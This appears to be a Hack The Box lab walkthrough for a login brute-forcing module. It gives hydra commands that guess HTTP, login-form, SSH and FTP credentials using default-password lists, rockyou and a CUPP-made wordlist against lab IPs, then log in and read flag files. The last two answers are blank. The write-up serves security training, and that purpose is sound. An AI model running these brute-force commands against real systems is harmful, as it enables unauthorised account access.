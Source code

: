 # [HTB] Login Brute Forcing

## Default Passwords

>**Q. Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.253.106 -s 55305 http-get /
```

## Username Brute Force

>**Q. Try running the same exercise on the question from the previous section, to learn how to brute force for users.**

```bash
Hint: Use the same answer as the previous question!
```

## Login Form Attacks

>**Q. Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 83.136.253.106 -s 55305 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Service Authentication Brute Forcing

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
sudo apt install cupp
```

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
cupp -i
hydra -l b.gates -P william.txt -u -f ssh://83.136.253.168:43879 -t 4
ssh b.gates@83.136.253.168 -p 43879
ls
cat flag.txt
```

```bash
ls /home
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt -u -f ftp://0.0.0.0
ftp 0.0.0.0
ls
get flag.txt
exit
ls
cat flag.txt
```

## Skills Assessment - Website

>**Q. When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.254.230 -s 42335 http-get / 
```


>**Q. Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**

Hint: You may reuse the username you found earlier. Make sure you got the correct fail string and parameters.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -f 83.136.254.230 -s 42335 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```

## Skills Assessment - Service Login

>**Q. As you now have the name of an employee, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.**

```bash

```

>**Q. Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.**

```bash

```
